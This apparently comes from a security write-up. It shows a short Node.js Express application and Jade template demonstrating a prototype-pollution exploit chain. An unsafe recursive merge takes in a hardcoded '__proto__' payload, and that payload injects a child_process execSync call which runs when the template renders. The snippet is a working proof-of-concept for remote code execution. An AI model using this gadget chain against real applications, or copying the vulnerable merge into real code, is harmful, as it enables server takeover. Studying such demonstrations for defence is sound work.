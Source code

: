 ```bash
const express = require('express');
const lodash = require('lodash');
const path = require('path');
var bodyParser = require('body-parser');


const app =  express();
var router = express.Router();

app.set('view engine', 'jade');
app.set('views', path.join(__dirname, 'views'));
app.use(bodyParser.json({ extended: true }));


app.get('/',function (req, res) {
    res.send('Hello World');
})

app.post('/post',function (req, res) {
    function merge(target, source) {
        for (let key in source) {
            if (key in source && key in target) {
                merge(target[key], source[key])
            } else {
                target[key] = source[key]
            }
        }
    }
//对原型进行污染
    var malicious_payload = '{"__proto__":{"self":1,"line":"global.process.mainModule.require(\'child_process\').execSync(\'calc\')"}}';
    var body = JSON.parse(JSON.stringify(req.body));
    var a = {};
    merge(a, JSON.parse(malicious_payload));
    console.log(a.name);
    res.render('index.jade', {
        title: 'HTML',
        name: a.name || ''
    });
})
app.listen(8000, () => console.log('Example app listening on port http://127.0.0.1:3000 !'))
```

index.jade:

```bash
doctype html
html
    head
        meta(charset="utf-8")
        title Example App
    body
        h1= message
```
